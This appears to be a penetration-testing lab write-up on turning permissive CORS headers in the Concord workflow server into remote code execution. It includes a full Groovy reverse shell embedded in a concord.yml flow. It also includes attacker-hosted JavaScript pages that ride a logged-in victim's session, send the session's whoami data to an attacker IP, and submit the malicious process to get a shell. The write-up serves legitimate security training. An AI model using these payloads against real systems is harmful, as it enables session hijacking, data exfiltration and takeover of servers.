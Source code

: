 ## Reading the Documentation

Now that we have understood what the vulnerability is, and we have found a potential vector, we can start our research on what we can/can't do and how can we exploit.

CORS exploits are similar to reflected _Cross-Site Scripting_ (XSS) in that we must send a link to an already-authenticated user in order to exploit something of value.
The difference with CORS is that the link we send will not be on the same domain as the site we are targeting.
Since Concord has some permissive CORS headers, any site that an authenticated user visits can interact with Concord and ride the user's session.
Thus, we will host our own site. A site that will host a JavaScript payload that will run in the victim's browser and interact with Concord(riding the user's session).

Now, even though we understand how to exploit this vulnerability, we need to understand how can we specifically exploit concord.
Thus, we need to find a special request that can we can get executed from the user's session, that either elevates our privileges, or allows us to obtain sensitive information.
For this, we will move on to the concord API's documentation.
Moreover, because the concord CORS headers, have some restrictions, we need to be selective with what types of requests we search for.

There are only 3 types of requests we can work with:
1. GET request that obtains sensitive information.
2. GET request that changes the state of the application.
3. POST request that only uses standard content-types.

For example, the first section that catches our eye is the API key section.
Here, we see the request /api/v1/apikey.
This looks interesting as it creates a new API key for a user, this might seem interesting until we notice that the POST request uses application/json content-type, which means, before sending the request it will send an OPTIONS method request, which replies with different CORS headers that are not as vulnerable:

![](../../03.%20Screenshots/t8-ss18.png)

Moving on, further reading the documentation, we land on the process section.
Here, we see an endpoint to "Start a Process".
A process in concord, is the execution of a flow in a repo, of a project.
This might lead to code execution, and thus we can start inspecting more.

The request is a standard POST request, which requires the "multipart/form-data" content-type, which is a standard content-type and does not require a preflight check.
We don't have to worry about the authentication, as even though concord could authenticate requests solely with an _Authorization_ header, most modern graphical sites coded for browser-based clients use cookies for authentication.
In addition, since the server sent the _Access-Control-Allow-Credentials_ header, we can assume that cookies are used for session management.

![](../../03.%20Screenshots/t8-ss19.png)

Reading the documentation further, we see how we can start a concord process by uploading a ZIP file.
The documentation explains, how we can create a zip archive with a concord.yml file that contains a "flow". Concord describes a flow as a "series of steps executing various actions":

Further in the documentation, it even states that we don't even need to provide a ZIP file, and can just provide the concord.yml file to get the process running:

![](../../03.%20Screenshots/t8-ss20.png)

The documentation says "The format is described in Directory Structure document."
Thus, we can visit the URL to the directory structure, to study potential paths to code execution.

The document defines a concord.yml file as "a Concord DSL file containing the main flow, configuration, profiles and other declarations"
and a DSL as "Concord DSL files contain configuration, flows, profiles and other declarations."

Finally, we can try and understand what a flow is. which seems to be our most likeable command execution vector.
Studying further, on how we can set up a flow, we can see the groovy script example, in the "Scripting" section:

![](../../03.%20Screenshots/t8-ss21.png)

The script, first imports the groovy dependency, then sets the script variable to groovy. This will instruct concord to execute the command as groovy.
With that setup, we can finally add the main body, and set it as a basic reverse shell. Our final concord.yml file will look like so:

```groovy
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "<kali IP}>";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
```

With the script ready, we need to create a website that our victim will visit who's session we will ride.
The website code will look like so:

```html
<html>
	<head>
		<script>
			fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
			})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.118.2/?msg=" + data )
			}else{
				fetch("http://192.168.118.2/?msg=UserNotLoggedIn" )
			}
			})
		</script>
	</head>
	<body>
	</body>
</html>
```

The code will first check if the user is logged in.
If the response status is not 401(meaning the user is logged in), the captured data will be sent back.
However, if the user is not logged in meaning a 401 status response, a message will be sent back to the kali server saying that the user is not logged in.

We can save the html file, and host a python http server and send the link to our victim, and wait for a response.
To make sure the webpage is working, we will visit the attacker IP, and expect a UserNotLoggedIn message to the kali server:

![](../../03.%20Screenshots/t8-ss22.png)

Now, we wait for an authenticated victim to visit our webpage:

![](../../03.%20Screenshots/t8-ss23.png)

We see that our exploit is working correctly.
Now all we need to do is, include our groovy script, as a file, inside the request we're sending riding the user's session:

```html
<html>
<head>
	<script>
		yml = `
configuration:
  dependencies:
  - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.2"
flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.119.155";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
`         
		fetch("http://concord:8001/api/service/console/whoami", {
				credentials: 'include'
		})
			.then(async (response) => {
			if(response.status != 401){
				let data = await response.text();
				fetch("http://192.168.119.155/?msg=" + data )
				rce();
			}
			else{
				fetch("http://192.168.119.155/?msg=UserNotLoggedIn" )
			}
		})
		function rce() {
			var ymlBlob = new Blob([yml], { type: "application/yml" });
			var fd = new FormData();
			fd.append('concord.yml', ymlBlob);
			fetch("http://concord:8001/api/v1/process", {
			    credentials: 'include',
				method: 'POST',
			    body: fd
			})
				.then(response => response.text())
				.then(data => {
			    	fetch("http://192.168.119.155/?msg=" + data )
				}).catch(err => {
			    	fetch("http://192.168.119.155/?err=" + err )
				});
			}
		</script>
</head>
<body>
</body>
</html>
```

We'll first add our groovy script in a "yml" variable.
Then, we define the function "rce", that will start by creating a blob from the yml string, with the content-type "application/yml".
Next, we create the form-data for fetch, we append that, to the end of the concord.yml document.
We use fetch, to make the actual request, and deal with responses and catch any errors.
Finally, we call the function, in the ".then" promise, where the user is logged into the application.

With the payload ready, we can setup a listener to catch the reverse shell, and wait for the victim to visit our link. Finally, we get the reverse shell:

![](../../t8-ss24.png)